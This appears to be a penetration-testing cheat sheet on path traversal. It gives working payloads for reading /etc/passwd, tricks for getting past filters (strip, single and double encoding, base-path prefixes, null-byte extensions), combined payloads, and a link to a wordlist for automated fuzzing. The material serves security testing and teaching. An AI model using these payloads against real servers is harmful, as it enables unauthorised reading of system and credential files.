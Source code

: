 # Path traversal

## <mark style="color:yellow;">General info</mark>

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## <mark style="color:yellow;">Bypass defences</mark>

* Elimination (strip): `../` -> `....//`
  * Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` ->`%2e%2e%2f`
* Double-encode: `../` ->`%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

{% hint style="info" %}
**Note**: On Windows, both `../` and `..\` are valid directory traversal sequences.
{% endhint %}

## <mark style="color:yellow;">Tips</mark>

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

## <mark style="color:yellow;">Automatic exploitation</mark>

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;

